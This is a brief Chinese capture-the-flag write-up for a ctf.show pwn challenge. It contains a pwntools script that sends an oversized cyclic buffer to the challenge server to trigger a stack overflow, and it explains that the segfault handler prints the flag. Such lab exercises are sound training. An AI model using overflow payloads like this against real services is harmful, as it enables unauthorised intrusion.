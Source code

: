# 挑战简介
现在你应该学会了吧

# 思路
简单的题？后门函数有，栈溢出有  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show', 28180)

elf = ELF('D:\edge 下载\pwn')

payload = cyclic(0x100)

io.sendline('Yes')

io.recvuntil('Tell me you want: ')

io.sendline(payload)

io.interactive()
```

段错误函数报错执行输出flag，原来如此，原来如此
